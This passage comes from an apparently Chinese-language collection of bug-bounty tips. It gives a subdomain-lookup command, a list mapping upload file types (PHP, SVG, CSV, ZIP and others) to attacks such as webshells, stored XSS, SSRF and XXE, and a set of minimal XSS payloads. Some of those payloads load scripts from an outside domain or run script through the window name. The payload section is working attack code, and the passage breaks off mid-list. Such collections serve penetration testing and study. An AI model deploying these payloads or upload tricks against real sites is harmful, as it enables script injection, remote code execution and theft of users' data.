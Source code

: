 ```bash
rapiddns target.com
```

![图片](assets/1710308581-ff31c3920e108b8c2050910eb3f63028.png)  

很好，也很快。

## 29\. Top 10 你能在什么情况下，你上传能挖到不同的洞

By @SalahHasoneh1\[77\] Source: link\[78\]

以下是上传的十大列表，你可以通过上传来实现这些类型漏洞。

1.**ASP / ASPX / PHP5 / PHP / PHP3**: Webshell / RCE2.**SVG**: 存储 XSS / SSRF / XXE3.**GIF**: 存储 XSS / SSRF4.**CSV**: CSV 注入 5.**XML**: XXE6.**AVI**: LFI / SSRF7.**HTML / JS** : HTML 注入 / XSS / 开放重定向 8.**PNG / JPEG**: 像素洪水攻击 (DoS)9.**ZIP**: RCE via LFI / DoS10.**PDF / PPTX**: SSRF / 盲打 XXE

## 30\. Tiny 最小 XSS 有效 payloads

By @terjanq\[79\] Source: link\[80\]

这是 @terjanq\[81\] 制作的最小 XSS 有效 payloads 的集合。

```bash
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">

<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>

<!-- If you control the name of the window -->
<iframe/onload=src=top.name>

<!-- If you control the name, will work on Firefox in any context, will fail in chromium in DOM -->
```